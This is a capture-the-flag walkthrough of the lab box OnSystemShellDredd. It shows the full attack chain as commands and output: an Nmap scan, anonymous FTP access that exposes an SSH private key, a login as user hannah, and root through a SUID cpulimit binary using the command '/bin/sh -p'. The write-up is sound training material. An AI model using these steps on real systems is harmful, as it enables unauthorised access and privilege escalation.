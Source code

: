 # PG Play - OnSystemShellDredd

#### Ip: 192.168.235.130
#### Name: OnSystemShellDredd
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ sudo nmap -p-  --min-rate 10000 192.168.235.130 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 15:07 CDT
Nmap scan report for 192.168.235.130
Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.177
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 592d210c2faf9d5a7b3ea427aa378908 (RSA)
|   256 5926da443b97d230b19b9b02748b8758 (ECDSA)
|_  256 8ead104fe33e652840cb5bbf1d247f17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.84 seconds
```

Interesting, only FTP and SSH are open on TCP ports. 

Looking at the scan results we see that FTP has anonymous access enabled. Lets start there.

```text
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ ftp 192.168.235.130
Connected to 192.168.235.130.
220 (vsFTPd 3.0.3)
Name (192.168.235.130:ryan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48916|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||54981|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||56908|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||45575|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |********************************************************************************|  1823        6.58 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (26.05 KiB/s)
ftp> bye
221 Goodbye.
```

Wow, looks like we have an SSH key for user hannah.

### Exploitation

Nice, we were able to use this key to get on the target:

```text
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ chmod 600 id_rsa
                                                                                                                                                                                                                                                      
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ ssh -i id_rsa hannah@192.168.235.130 -p 61000
The authenticity of host '[192.168.235.130]:61000 ([192.168.235.130]:61000)' can't be established.
ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.235.130]:61000' (ED25519) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ hostname
ShellDredd
```

We can now grab the local.txt flag:

![user_flag.png](../assets/onsystemshelldredd_assets/user_flag.png)

### Privilege Escalation

Lets transfer over LinPEAS to help with enumerating a privilege escalation vector:

transfer.png

LinPeas finds a couple of programs with the SUID bit set we may be able to use to escalate privlieges:

suid.png

Lets head over to https://gtfobins.github.io/gtfobins/cpulimit/ to get the command we'll need to exploit this:

gtfo.png

We can exploit this by running:

```text
hannah@ShellDredd:/tmp$ cd /usr/bin
hannah@ShellDredd:/usr/bin$ ./cpulimit -l 100 -f -- /bin/sh -p
Process 13092 detected
# whoami
root
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
```

And can grab the proof.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------------------
